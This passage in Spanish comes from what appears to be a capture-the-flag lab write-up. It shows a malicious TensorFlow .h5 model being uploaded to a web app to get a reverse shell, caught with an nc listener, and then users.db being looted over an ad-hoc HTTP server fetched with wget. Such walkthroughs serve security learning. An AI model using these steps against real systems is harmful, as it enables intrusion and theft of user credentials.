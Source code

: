     - Todo lo que esté entre comillas se ejecuta como un mini-script dentro del contenedor.
```bash
pip install https://files.pythonhosted.org/.../tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl &&
python exploit.py
```
7. `pip install <tensorflow.whl>`
   - Descarga e instala TensorFlow CPU 2.13.1 desde el archivo .whl específico para Python 3.8.
   - Es equivalente a hacer `pip install tensorflow==2.13.1` pero usando el wheel directamente.
   - Esto prepara el contenedor para ejecutar el script que depende de TensorFlow.

8. `&& python exploit.py` 
  - Compila el exploit.h5 para subir 

* Subimos el archivo y hacemos click en el boton "View Predictions" que ejecuta el .h5 malicioso

* Receptor

```bash
  nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.14.218] from (UNKNOWN) [10.10.11.74] 41278
/bin/sh: 0: can't access tty; job control turned off
$ 
```

#### Movimiento lateral / escalada de privilegios

1. Buscamos archivos de interes, looteamos users.db

```bash
$ whoami
app
$ ls -la
total 36
drwxrwxr-x 7 app app 4096 Jun  9 13:56 .
drwxr-x--- 6 app app 4096 Jun  9 10:52 ..
-rw-rw-r-- 1 app app 7846 Jun  9 13:54 app.py
drwxr-xr-x 2 app app 4096 Sep  9 23:03 instance
drwxrwxr-x 2 app app 4096 Sep  9 23:10 models
drwxr-xr-x 2 app app 4096 Jun  9 13:55 __pycache__
drwxrwxr-x 4 app app 4096 Jun  9 13:57 static
drwxrwxr-x 2 app app 4096 Jun 18 13:21 templates
$ ls static
css
Dockerfile
js
requirements.txt
$ ls instance
users.db
$ python3 -m http.server 8000
```

* loot desde kali

```bash
  wget http://10.10.11.74:8000/instance/users.db                     
--2025-09-09 20:23:31--  http://10.10.11.74:8000/instance/users.db
Connecting to 10.10.11.74:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 24576 (24K) [application/octet-stream]
Saving to: ‘users.db’

users.db                  100%[=====================================>]  24.00K   117KB/s    in 0.2s    

2025-09-09 20:23:32 (117 KB/s) - ‘users.db’ saved [24576/24576]

```